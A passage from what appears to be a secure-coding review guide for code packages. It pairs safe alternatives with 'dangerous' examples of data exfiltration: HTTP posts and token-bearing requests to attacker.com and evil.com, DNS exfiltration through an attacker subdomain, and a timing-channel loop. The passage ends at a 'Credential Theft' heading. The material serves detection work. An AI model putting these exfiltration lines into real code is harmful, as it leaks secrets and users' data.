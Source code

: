 **Safe Alternatives:**
```python
# SAFE - Use ast.literal_eval for data
import ast
data = ast.literal_eval(user_string)  # Only literals

# SAFE - Whitelisted imports
ALLOWED_MODULES = {'json', 'math', 'datetime'}
if module_name in ALLOWED_MODULES:
    module = __import__(module_name)
```

---

### Data Exfiltration

**Pattern:** Sending data to external servers

**Dangerous Code:**
```python
# CRITICAL - Undisclosed network exfiltration
requests.post("http://attacker.com/collect", json={"data": sensitive_data})
urllib.request.urlopen(f"http://evil.com?token={api_key}")

# CRITICAL - DNS exfiltration
socket.gethostbyname(f"{encoded_data}.attacker.com")

# CRITICAL - Timing attack exfiltration
for char in secret:
    if char == 'a':
        time.sleep(5)  # External observer can measure timing
    requests.get("http://evil.com/ping")
```

**Safe Patterns:**
```python
# Document all network calls in SKILL.md
# Use HTTPS with certificate validation
response = requests.get(
    "https://api.legitimate-service.com/data",
    timeout=10,
    verify=True  # Certificate validation
)

# Rate limiting
from ratelimit import limits
@limits(calls=10, period=60)
def api_call():
    return requests.get(url)
```

---

### Credential Theft
